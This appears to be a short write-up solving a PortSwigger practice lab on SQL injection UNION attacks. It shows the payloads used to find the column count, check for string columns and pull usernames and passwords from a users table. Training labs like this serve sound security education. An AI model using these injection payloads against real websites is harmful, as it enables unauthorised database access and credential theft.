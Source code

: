 ```yaml
---
title: PSA - SQLi 5 - UNION attack, retrieving data from other tables
date: 2023-03-06
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

The database contains a new table called `users` with columns `username` and `password` inside.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # error!
````

We now know there are 2 columns. Time to test if both contain string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL--    # works
<website>/filter?category=Pets' UNION SELECT 'abc','abc'--   # works
````

We are now sure both columns contain string. We can try to extract the data in users table:

````text
<website>/filter?category=Pets' UNION SELECT username, password FROM users--
````

The usernames and passwords are displayed.
